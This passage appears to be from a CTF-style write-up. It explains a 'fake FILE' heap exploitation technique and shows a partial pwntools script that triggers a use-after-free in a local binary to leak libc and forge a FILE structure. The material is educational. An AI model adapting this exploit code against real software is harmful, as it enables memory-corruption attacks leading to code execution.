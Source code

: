 ### Exploitation

For exploitation, we use the classic "fake FILE" technique. By reclaiming the memory block of vec_objs (free), a forged FILE structure is placed behind the `STDIN._chain` to achieve code execution.

The exploit code is as follows:
```python
from pwn import *


ph = process("./main")

context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(ph, "b msgHandler.hpp:126")
# gdb.attach(ph, "b visit_obj")

def new_cfg(op, name, content, updated):

    normal_cfg = b''
    normal_cfg += p32(op)
    normal_cfg += p32(len(name))
    normal_cfg += name
    # content
    normal_cfg += p32(len(content))
    normal_cfg += content
    normal_cfg += p8(updated)

    return normal_cfg

def config_leak_libc_unsorted():

    configs = []

    # update1
    name = b'A'*0x30
    content = b'A'*0x30
    configs.append(new_cfg(1, name, content, 1))

    # not update
    # modify:here could not be used
    name = b'B'*0x30
    content = b'B'*0x30
    configs.append(new_cfg(1, name, content, 1))

    # update to here
    name = b'C' * 0x30
    content = b'C' * 0x420
    configs.append(new_cfg(1, name, content, 1))

    # from here ,we will not update
    name = b'D' * 0x30
    content = b'D' * 0x420 
    configs.append(new_cfg(1, name, content, 0))

    # now it pointer to the older one
    # add new one to trigger vul
    name = b'E' * 0x30
    content = name 
    configs.append(new_cfg(1, name, content, 0))

    # delete first one
    name = b'C'*0x30
```